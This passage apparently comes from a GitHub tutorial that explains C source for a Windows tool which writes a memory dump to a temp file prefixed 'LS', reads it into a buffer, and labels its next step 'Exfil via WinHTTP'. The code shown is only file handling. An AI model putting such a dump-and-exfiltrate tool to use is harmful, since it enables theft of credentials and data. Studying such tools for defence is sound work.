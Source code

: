 ```
 }
 fileSize = GetFileSize(hFile, NULL);
 fullBuffer = (BYTE*)malloc(fileSize);
 if (!fullBuffer) {
 fprintf(stderr, "[-] malloc(%u) failed.\n", fileSize);
 CloseHandle(hFile);
 goto cleanup;
 }
 if (!ReadFile(hFile, fullBuffer, fileSize, &bytesRead, NULL) ||
 bytesRead != fileSize) {
 fprintf(stderr, "[-] ReadFile(temp) failed: %lu\n", GetLastError());
 CloseHandle(hFile);
 goto cleanup;
 }
 CloseHandle(hFile);
 printf("[+] In-memory dump size: %u bytes\n", fileSize);
// 5) Exfil via WinHTTP in one shot
```

**. Create a temp filename**

`GetTempPathA(MAX_PATH, tmpPath)`:

- Retrieves path to temp directory (e.g., `"C:\\Users\\User\\AppData\\Local\\Temp\\"`).
- **MAX\_PATH**: buffer size in characters.
- **tmpPath**: output buffer.

`GetTempFileNameA(tmpPath, "LS", 0, tmpFile)`:

- Creates a unique temporary file in `tmpPath` with prefix `"LS"`.
- `0`: let system choose a unique number.
- `tmpFile`: receives the full path, e.g., `"C:\\Users\\User\\AppData\\Local\\Temp\\LS1234.tmp"`.

**. Read the entire dump into memory**

`CreateFileA`

- `tmpFile`: path of the dump file just created.
- `GENERIC_READ`: open for reading.
- `FILE_SHARE_READ`: allow other readers; not critical here.
- `NULL`: default security.
- `OPEN_EXISTING`: only open if it exists.
- `FILE_ATTRIBUTE_TEMPORARY`: hint that file is temporary; may influence caching.
- `NULL`: no template file.

`GetFileSize` parameters:

- `hFile`: handle returned above.
- `NULL`: pointer for high-order DWORD (not used; file size assumed &lt;4GB).

```
fullBuffer = (BYTE*)malloc(fileSize);
    if (!fullBuffer) {
        fprintf(stderr, "[-] malloc(%u) failed.\n", fileSize);
        CloseHandle(hFile);
        goto cleanup;
    }
```
